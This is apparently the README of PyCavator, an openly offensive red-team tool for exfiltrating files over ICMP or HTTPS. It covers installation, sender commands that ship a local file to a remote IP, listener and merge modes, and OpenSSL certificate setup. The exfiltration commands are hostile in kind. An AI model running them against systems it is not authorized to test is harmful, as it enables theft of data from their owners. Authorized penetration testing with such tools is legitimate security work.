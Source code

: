 # PyCavator

PyCavator is a Python-based tool that can be used to send and receive data using ICMP/HTTPS packets. 
The tool can be used for authorized red teaming and penetration testing activities or educational purposes. 
It provides a sender mode to exfiltrate data from a file and a listener mode to receive incoming data and save it in chunks or to a single file. 
The tool also includes a merge mode to merge output files with part numbers in the specified range. 
With PyCavator, users can easily exfiltrate or receive data using ICMP/HTTPS packets in a secure and efficient manner.

- [PyCavator](#pycavator)
  * [Installation](#installation)
  * [Usage](#usage)
    + [ICMP](#icmp)
    + [HTTPS](#https)
  * [How to Contribute](#how-to-contribute)
  * [Disclaimer](#disclaimer)
  * [License](#license)

## Installation

PyCavator requires Python 3 to be installed. To install PyCavator, clone the repository and install the required Python modules:

```bash
git clone https://github.com/kryptohaker/PyCavator.git
cd PyCavator
pip install -r requirements.txt
```

## Usage

### ICMP 

<b>Required libraries:</b><br/>
- All libraries are part of the default Python installation.<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
```bash  
python pycavator-icmp.py -f input.txt -d 192.168.1.101
```  
  <b>Listener mode: listen for incoming data and save in chunks</b><br/>
```bash
python pycavator-icmp.py -l -s 192.168.1.100 -w c
```  
  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
```bash  
python pycavator-icmp.py -l -s 192.168.1.100 -w s -o output_folder
```  
  <b>Merge mode: merge output files with part numbers in the specified range</b><br/>
```bash
python pycavator-icmp.py --merge -x output -a 1 -b 10 -e txt -o output_folder
```

### HTTPS 

<b>Required libraries:</b><br/>
- `requests`: used for sending HTTP requests<br/>
- `Flask`: used for creating the web server<br/>
- `ssl`: used for configuring SSL/TLS encryption<br/>
- `urllib3`: used for disabling SSL warnings<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
```bash
python pycavator-https.py -f input.txt -d 192.168.1.101 -p 4443 -ca ca.pem -t "eyJhbGciO..._adQssw5c"
```
> If in the target machine installation of required libraries is not possible, use `pycavator-httpsender.py` instead.

  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
```bash
python pycavator-https.py -l -s 192.168.1.100 -p 4443 -pb cert.pem -pk key.pem -o /tmp -t "eyJhbGciO..._adQssw5c"
``` 

#### Generating a Key, CSR, and Certificate with OpenSSL

This guide explains how to use OpenSSL to generate a new private key, create a certificate signing request (CSR) with the private key, sign the CSR to create a digital certificate, and display the contents of the certificate.

<b>Prerequisites:</b><br/>
- OpenSSL installed on your system.

##### Steps

Generate a new private key:
```bash
openssl genrsa -out key.pem 2048
```
This command generates a new RSA private key with a length of 2048 bits, and saves it to a file named `key.pem`.

Create a CSR with the private key:
```bash
openssl req -new -key key.pem -out csr.pem
```
This command creates a new certificate signing request (CSR) using the private key stored in the `key.pem` file, and saves the CSR to a file named `csr.pem`.

Sign the CSR to create a digital certificate:
```bash
openssl x509 -req -days 1 -in csr.pem -signkey key.pem -out cert.pem
```
This command uses the private key stored in the `key.pem` file to sign the CSR stored in the `csr.pem` file, and saves the resulting digital certificate to a file named `cert.pem` (is the output file that contains the public key). The `-days 1` option sets the validity period of the certificate to one day.

Display the contents of the certificate:
```bash
openssl x509 -text -noout -in cert.pem
```
This command displays the textual representation of the digital certificate stored in the `cert.pem` file, without the header or footer information.

Create a self-signed root certificate authority:
```bash
cp cert.pem ca.pem
```
This command copies the contents of the `cert.pem` file to a new file named `ca.pem`. This is often done to create a self-signed root certificate authority (CA), which can be used to sign other certificates for internal use.

## How to Contribute

If you would like to contribute to PyCavator, please fork the repository and submit a pull request.

## Disclaimer

This tool is intended for authorized/legitimate red teaming and pentesting activities or educational purposes only. The author of the tool is not responsible for any misuse or illegal activities that may arise from the use of this tool. Users are responsible for complying with all applicable laws and regulations. By using this tool, you acknowledge that you have read this disclaimer and agree to its terms.

## License

This project is licensed under the Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International (CC BY-NC-SA 4.0). This means that you are free to share and distribute the original work with proper attribution to the original author, but you may not use it for commercial purposes. Additionally, any new versions of the work must be distributed under the same license and with proper attribution to the original author. See the [LICENSE](LICENSE) file for details.




